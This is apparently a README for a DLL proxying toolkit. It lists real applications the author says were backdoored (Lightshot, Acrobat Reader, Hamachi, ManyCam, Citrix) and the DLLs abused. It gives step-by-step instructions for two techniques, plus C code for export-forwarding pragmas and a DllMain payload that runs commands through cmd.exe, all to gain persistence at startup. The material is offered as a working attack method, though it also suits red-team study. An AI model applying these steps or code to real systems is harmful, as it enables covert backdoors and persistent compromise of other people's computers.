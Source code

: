 # DLL Proxying
This README file will cover two techniques to perform DLL Proxying.

[This article](https://www.ired.team/offensive-security/persistence/dll-proxying-for-persistence) gives more details about the concept of DLL Proxying.

## List of successfully backdoored programs (so far)

Program Name | DLL | Requires admin rights
-------------| ----|----------------------
Lightshot | DXGIODScreenshot.dll | Yes
Acrobat Reader | BIB.dll | Yes
Hamachi Service | LMIGuardianDll.dll | Yes
ManyCam | P7x32.dll | Yes
Citrix | ctxmui.dll | Yes

## DLL Proxying & Persistence concept
The goal is to use programs that automatically run on startup.

There are two techniques, generally if the first one fails you will want to try the other one.

The two common steps for both techniques are :
1. Find the program that fits your needs for persistence
2. List DLLs used by this program (with Procmon)

### **Technique 1**

Technique 1 is based on the idea that the DLL exists, and is loaded by the program. 

In Procmon, you can check this with the **Result** column being set to **SUCCESS**.

3. Once you picked your working DLL, use a tool such as DLLExportViewer to export the legit DLL's functions 

(or use my script to automate this step and step 4)

4. Write the pragma comment linkers from the exported functions for you to implement into your malicious DLL

It should look like :

```C
#pragma comment(linker,"/export:FUNCTION_NAME=DLLFileName_orig.FUNCTION_NAME,@ORDINAL")
```

5. Create your DLL with the code that you want to execute, here's an example :

```C
#pragma once

// Add the generated comments here
// # pragma comment(linker,"/export:FUNCTION_NAME=DLLFileName_orig.FUNCTION_NAME,@ORDINAL")
// .....
#include <windows.h>

DWORD WINAPI payload() {
	STARTUPINFOA info = { 0 };

	PROCESS_INFORMATION processInfo = { 0 };

	LPSTR arguments = (char*)" /c notepad"; // This is not necessary. It's just an argument example for you to use with your own commands

	if (CreateProcessA("C:\\Windows\\System32\\cmd.exe", arguments, NULL, NULL, TRUE, 0, NULL, NULL, &info, &processInfo)) {
		WaitForSingleObject(processInfo.hProcess, INFINITE);
		CloseHandle(processInfo.hProcess);
		CloseHandle(processInfo.hThread);
	}
	return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved) {
	switch (fdwReason) {
	case DLL_PROCESS_ATTACH:
		payload();
		break;
	case DLL_THREAD_ATTACH:
		break;
	case DLL_THREAD_DETACH:
		break;
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```

6. Name your DLL with the original legitimate DLL name (without the \_orig), and place it in the same folder.
7. Start the program and see if it worked.

### **Technique 2**

Technique 2 is based on the idea that the DLL doesn't exist where the program calls it. 

In Procmon, you can check this with the **Result** column being set to **NAME NOT FOUND**.

Using Procmon, you should also check if the **Path** column matches with the location of the installation folder of the program

3. Look for the DLL inside the System32 folder
4. Generate the pragma comment linkers from that DLL, but this time for the function name, specify entire path like such :

```C
#pragma comment(linker,"/export:FUNCTION_NAME=C:\\Windows\\System32\\FILENAME.dll.FUNCTION_NAME,@ORDINAL")
```
In my script you can use the `--system32` option to do it automatically.

6. Add the generated comments to your malicious DLL and build it
7. Place the DLL within the folder specified by the **Path** column on Procmon (where the DLL wasn't found)
8. Be sure names match (case sensitive)
9. Start the program and see if it worked

## Consequences

Now everytime the program is going to run, assuming you have chosen a correct DLL and that your own DLL is working, it is going to call your malicious DLL, and will continue to owrk since your DLL exports all the same functions that the legit DLL exports.

Since it is a program that is ran on startup, your DLL will be called on startup and persistence is achieved.


### Troubleshoot
There are two main problems that can occur with this technique:
1. The program didn't start properly or crashed
2. The program started but nothing happened

For both case, it means that you picked the wrong DLL, and that you have to try with another one.
